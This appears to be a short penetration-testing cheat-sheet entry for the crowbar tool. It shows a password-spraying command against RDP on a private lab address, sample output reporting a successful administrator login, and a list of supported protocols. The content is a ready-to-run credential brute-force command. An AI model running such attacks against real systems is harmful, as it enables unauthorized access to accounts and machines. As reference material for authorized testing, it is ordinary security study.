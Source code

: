 # crowbar

```shell-session
 crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

```shell-session
2022-04-07 15:35:50 START
2022-04-07 15:35:50 Crowbar v0.4.1
2022-04-07 15:35:50 Trying 192.168.220.142:3389
2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
2022-04-07 15:35:52 STOP
```

#### Bruteforce Protocols

* openvpn
* rdp
* sshkey
* vnckey
* \[\[Remote Desktop Protocol (RDP)]]
